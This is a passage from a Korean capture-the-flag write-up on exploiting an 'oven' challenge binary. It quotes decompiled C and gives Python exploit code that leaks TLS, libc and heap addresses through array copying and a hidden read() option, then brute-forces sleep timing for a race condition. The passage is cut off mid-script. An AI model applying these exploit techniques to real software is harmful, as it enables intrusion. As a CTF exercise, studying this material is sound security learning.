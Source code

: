 `food`는 최대 4개까지 `insert`할 수 있으므로 `food[0]`~`food[3]`까지 생성했다가 `food[0]`을 `remove`를 하면 `food[4]`의 데이터를 `food[3]`에 복사한다.

이런 식으로 `food[0]`을 4번 `remove`하면 `food[4]` 영역의 데이터가 `food[0]`~`food[3]`에 복사가 된다.

참고로 `0x7ffff7da56c0`에 저장된 `0x7ffff7da56c0`가 TLS 주소로, `__readfsqword(0)`를 실행했을 때 반환되는 값이다.

이 값이 다른 값으로 바뀌게 되면 `__readfsqword(0)`의 결과가 바뀐 값으로 반환되어 주의해야 한다.
``` c
printf("Foods in '%s':\n", oven->name);
for ( i = 0; i < (__int64)__readfsqword(0xFFFFFE90); ++i )
  printf(
    "%d. %s (cooking for %lld seconds, %lld seconds left)\n",
    (unsigned int)(i + 1),
    (const char *)(80LL * i + __readfsqword(0) - 0x160),  // name; 0x00007ffff7d864e0
    *(_QWORD *)(__readfsqword(0) + 0x50LL * i - 0x120),   // cook_time
    *(_QWORD *)(__readfsqword(0) + 0x50LL * i - 0x118));  // left_time
```
`food.name`의 출력을 `%s`로 해주기 때문에 중간에 있는 `\x00`들을 채워주어야 하는데, `name`선택 시 고를 수 있는 hidden choice를 하면 호출되는 `read()`를 통해 해결할 수 있다.
``` c
if ( food_choice == 4 )     // hidden
{
  pthread_mutex_lock(&prompt_mutex_5100);
  printf("Enter food name for spacial food: ");
  read(0, (void *)(__readfsqword(0) - 0x160 + 0x50 * __readfsqword(0xFFFFFE90)), 0x40uLL);  // name; 0x00007ffff7d864e0
  pthread_mutex_unlock(&prompt_mutex_5100);
}
```
따라서 다음과 같이 payload를 작성했다.
``` python
    create_oven(s, b"1111")
    select_oven(s, b"1")

    for _ in range(4):
        insert_food(s, b"1", 12345)
    for _ in range(4):
        remove_food(s, b"1")
    insert_food(s, b"5", 12345, b"A" * 0x20)
    r = insert_food(s, b"5", 12345, b"B" * 0x28)
    tls = u64(r.split(b"A" * 0x20)[1].split(b" ")[0] + b"\x00\x00")
    libc = tls + 0x3940
    heap = u64(r.split(b"B" * 0x28)[2].split(b" ")[0] + b"\x00\x00") - 0x960
    remove_food(s, b"1")
    remove_food(s, b"1")
```
이 때 TLS의 위치가 libc의 바로 위 영역에 할당되므로 offset을 계산하면 libc base도 획득할 수 있다.

### Race condition
Race condition을 트리거하기 위한 sleep time을 구하기 위해 brute force를 수행하는 payload를 작성했다.
``` python
def brute_force_time(port):
    context.log_level = 'error'
    for i in range(10000):
        s = remote("0.0.0.0", port)
        s.recvuntil(b"option: ")
        create_oven(s, b"1111")
        select_oven(s, b"1")

        # information leak

        insert_food(s, b"1", 1)
        sleep_time = 0.95 + i / 10000
        sleep(sleep_time)
        remove_food(s, b"1")
```